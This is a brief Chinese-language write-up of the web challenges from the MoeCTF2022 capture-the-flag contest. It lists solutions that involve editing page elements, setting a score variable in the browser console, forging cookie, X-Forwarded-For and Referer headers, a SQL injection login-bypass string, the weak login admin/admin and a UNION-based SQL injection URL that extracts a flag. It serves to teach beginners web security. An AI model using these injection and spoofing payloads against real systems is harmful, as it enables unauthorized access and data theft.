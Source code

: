 #  MoeCTF2022 Web Offcial Writeup

## ezhtml

右键/F12编辑元素，令各分数加起来等于总分且大于600即可。



## god_of_aim

控制台输入

aimTrainer.score=100000



## Cookiehead

将cookie中login改为1

Headers的X-Forwarded-For设为127.0.0.1

Referer设为http://127.0.0.1/index.php



## Sqlmap_boy

账号填admin" or 1=1--#，密码随意。

或者弱口令admin/admin即可登录。



第二处为单引号闭合。

Payload: secrets.php?id=-2' union select 1,2,flag from flag --+





